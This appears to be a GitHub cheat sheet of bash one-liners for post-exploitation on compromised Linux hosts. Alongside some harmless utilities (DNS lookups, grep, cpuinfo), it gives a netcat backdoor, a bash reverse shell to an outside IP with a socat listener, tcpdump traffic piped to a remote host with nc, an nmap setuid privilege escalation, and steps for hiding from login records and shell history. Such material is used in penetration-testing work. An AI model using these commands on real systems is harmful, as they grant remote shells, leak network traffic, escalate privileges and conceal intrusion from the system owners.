# Bash Commands for Post Exploitation

One liners
-----------

**Resolve a list of hostnames to IP addresses**
```bash
awk < hostnames.txt '{ system("resolveip -s " $1) }'
```

**IIS 6.0 IP Disclosure**
```bash
curl -l -O -H "Host:" "example.com"
```

**Connect to SSL websites**
```bash
openssl s_client -connect example.com:443
```

**Convert base64 to text**
```bash
echo 'base64string' | base64 -d   (Use -D on OSX)
```

**Decode ASCII shellcode**
```bash
echo -e *shellcode hex string*   (may need to use -i to ignore bad chars)
```

**Enumerate DNS of Class C**
```bash
for ip in $(seq 1 254); do; host 10.1.1.$ip | grep "name pointer"; done
```

**SSH to box and hide from "who" and "lastlog"**
```bash
ssh andrew@10.1.1.1 -T /bin/bash
```

**Prevent terminal logging**
```bash
unset HISTFILE
```

**Add immutable attribute to a unix file**
```bash
chattr +i *file*
```

**SSH into host2 through host1**
```bash
ssh -o "proxycommand ssh -W host2 host1" host2
```

**Nmap setuid privesc**
```bash
nmap --script <(echo 'os.execute("/bin/sh")')
nmap --interactive     (for older versions)
```

**Transfer files through SSH**
```bash
ssh test@10.1.1.1 "cat test.tar.gz" > test.tar.gz
```

**Internal port redirect for bypassing services**
```bash 
iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 4444
```

**Enable forwarding on the fly**
```bash
sysctl -w net.ipv4.ip_forward=1
```

**Kill with USR1 developer defined signal**
```bash
kill -USR1 <pid>
```

**Pull IP addresses from a file**
```bash
grep -E -o '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}'
```

**Sniff traffic with tcpdump and send to remote tcp socket**
```bash
tcpdump -w - | nc -v 8.8.8.8 9999
```

**Recursively search for text contained in files within a directory**
```bash
zcat -rf ./* | grep "searchstring"
```

**Recursively search for files with the specified word within them**
*Submitted by cat on Google Fourms*
```bash
ls -a | find | grep -i "string"
```

**Netcat backdoor**
*Does not work with most distro's default version of netcat (most do not define ENABLE_GAPING_SECURITY_HOLE which turns on -e)*
```bash
nc -e /bin/bash *remotecomputer* *port*
OR
nc -e /bin/bash -lp *port*
```

**View CPU Information**
```bash
cat /proc/cpuinfo
```

**Bash reverse shell** (@icleus)

Works on all (recent) distrobutions where egress filtering is not in place / quite open, use this to reverse connect to your listening host.

```bash
bash -i>& /dev/tcp/123.123.123.123/1234 0>&1 &
```

I find this best works with a socat listener due to the readline support.

```bash
socat readline TCP-LISTEN:1234
```


Credits
-----------
Credits to @TheAndrewBalls for posting some awsome one liners (the hidden SSH example and the DNS enumeration are both his contributions)

